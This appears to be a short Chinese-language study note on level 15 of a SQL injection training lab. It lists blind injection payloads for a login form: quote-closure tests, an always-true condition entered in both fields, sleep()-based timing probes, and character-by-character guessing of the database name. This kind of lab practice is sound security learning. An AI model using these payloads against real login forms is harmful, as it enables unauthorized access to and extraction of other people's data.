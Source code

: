 ......






# less15

`\`

不显示结果



但是尝试报错注入也不显示报错内容

——尝试盲注



判断闭合方式

```
' or 1=1 #
```

用户名和密码都写：

```
' or ('1')=('1
```

实际上是：

```
select username,password from table1 where username='' or '1'='1' and password='' or '1'='1' limit 0,1;
```



或：

```
' or sleep(5) #
' and sleep(5) #
```

也可以穷举：

```
admin' and sleep(5) #
```

也可以猜：

```
admin' and (select database()='security') #

admin' and if(ascii(substr(database(),1,1))=115,sleep(10),null) #
```

```
' or if(ascii(substr(database(),1,1))=115,sleep(10),null) #
```
